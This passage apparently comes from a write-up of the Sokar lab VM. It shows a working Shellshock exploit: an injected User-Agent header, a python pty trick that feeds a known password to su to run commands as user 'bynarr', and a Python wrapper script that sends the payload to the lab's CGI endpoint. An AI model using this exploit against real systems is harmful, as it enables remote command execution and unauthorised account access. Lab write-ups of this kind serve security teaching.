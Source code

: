 Fast forward some time, I came across [this](http://pen-testing.sans.org/blog/2014/07/08/sneaky-stealthy-su-in-web-shells) SANS blogpost, which details on the topic of some 'stealthy' su shells. Most importantly, the example of `(sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"` got me the closest to `bynarr`. Toying around with this a little, I realized that for some reason, the `(` and `)` characters were messing around, so I replaced that section with some python too. After a whole bunch attempts, I eventually got this to work:

`/usr/bin/python -c "import time; time.sleep(1); print 'fruity'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su','-c','id', 'bynarr']);"`

(Basically, spawn a tty; attempt to `su` specifying the command to run with `-c`, then 1 second later, echo `fruity` to the *Password* prompt and execute `id` as `bynarr`)

```bash
leonjza@kali/sokar $ python shock.py "/usr/bin/python -c \"import time; time.sleep(1); print 'fruity'\" | /usr/bin/python -c \"import pty; pty.spawn(['/bin/su','-c','id', 'bynarr']);\""
 * Executing /usr/bin/python -c "import time; time.sleep(1); print 'fruity'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su','-c','id', 'bynarr']);"

Password:
uid=500(bynarr) gid=501(bynarr) groups=501(bynarr),500(forensic)
```

:D As this is actually a Shellshock request, the full `User-Agent` header therefore was:

```text
() { :;};echo;/usr/bin/python -c "import time; time.sleep(1); print 'fruity'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su','-c','id', 'bynarr']);"
```

Again, constructing that every time I want to execute something as `bynarr` would have been le-suck, so I made another wrapper script:

```python
#!/usr/bin/python

# Sokar 'bynarr' command execution
# 2015 Leon Jacobs

import requests
import sys

if len(sys.argv) < 2:

    print " * Usage %s <cmd>" % sys.argv[0]
    sys.exit(1)

command = sys.argv[1].strip()
payload = """/usr/bin/python -c "import time; time.sleep(1); print 'fruity'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su','-c','%s', 'bynarr']);" """ % command
print " * Executing %s\n" % payload

# prepare the sploit header
headers = { "User-Agent": "() { :;};echo;%s" % payload }
print requests.get("http://192.168.217.163:591/cgi-bin/cat", headers=headers).text.strip()
```
